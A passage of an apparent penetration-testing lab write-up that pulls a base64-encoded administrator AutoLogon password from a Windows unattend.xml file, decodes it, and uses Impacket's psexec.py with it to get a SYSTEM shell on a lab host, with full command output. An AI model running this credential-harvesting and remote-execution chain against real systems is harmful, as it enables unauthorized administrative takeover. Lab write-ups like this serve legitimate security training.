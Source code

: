```
                  <Description>BootCamp setup</Description>
                  <CommandLine>%AppsRoot%:\BootCamp\setup.exe</CommandLine>
                  <Order>2</Order>
                  <RequiresUserInput>false</RequiresUserInput>
              </SynchronousCommand>
            </FirstLogonCommands>
            <AutoLogon>
                <Password>
                    <Value>QWRtaW5AMTIz</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>administrator</Username>
            </AutoLogon>
        </component>
    </settings>
</unattend>

```

From the above we can see that the firstlogon commands password and if it was a plain text format. So we copy the base64 password and save it to a file on kali desktop.

```
root@attackdefense:~# echo "QWRtaW5AMTIz" > password.txt
```

crack the base64 password using the following command

```
root@attackdefense:~# base64 -d password.txt 
Admin@123
root@attackdefense:~# 
```

So the first logon password is Admin@123

[[PsExec]]

```
root@attackdefense:~# psexec.py "Administrator":"Admin@123"@10.5.17.71
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.5.17.71.....
[*] Found writable share ADMIN$
[*] Uploading file RFoVnPKe.exe
[*] Opening SVCManager on 10.5.17.71.....
[*] Creating service uOcK on 10.5.17.71.....
[*] Starting service uOcK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:\\

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI
05/13/2020  05:58 PM    <DIR>          PerfLogs
10/27/2020  09:59 AM    <DIR>          Program Files
```